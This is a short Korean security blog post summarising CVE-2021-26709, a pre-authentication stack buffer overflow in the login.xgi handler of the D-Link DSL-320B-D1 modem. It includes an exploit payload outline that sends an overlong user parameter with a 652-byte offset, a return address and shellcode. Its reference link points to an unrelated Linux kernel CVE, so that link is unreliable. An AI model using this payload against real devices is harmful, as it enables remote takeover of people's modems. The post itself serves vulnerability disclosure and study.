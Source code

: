 ```yaml
---
title: "[하루한줄] CVE-2021-26709: D-Link DSL-320B-D1 Pre-Auth Buffer Overflow"
author: insu
tags: [insu, cve, d-link, bof]
categories: [1day1line]
date: 2021-04-11 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-3483: Linux kernel: a use-after-free bug in nosy driver](https://seclists.org/oss-sec/2021/q2/10)

## Target

- DSL-320B-D1, EU_1.25 and lower

## Explain
ADSL 모뎀, DSL-320b-D1, EU_1.25 이하의 버전에서 인증되지 않은 사용자가 원격에서 디바이스를 탈취할 수 있는 Stack Buffer Overflow 취약점이 발견되었습니다.

취약점은 `login`을 담당하는 `login.xgi`에서, `user`와 `pass` 인자를 통해 발생합니다.

취약점을 악용하기 위해서 다음과 같이 payload를 구성해줍니다.

```python
[[
GET /login.xgi?user=" + payload + "&pass=abcde HTTP/1.1\\nHost: " +
host + "\\n\\n"
]]

[[
OFFSET = 652
ADDR = 0x7ffe8ab0

payload = "A"*OFFSET
payload += pack(">I", ADDR)
payload += shellcode
]]
```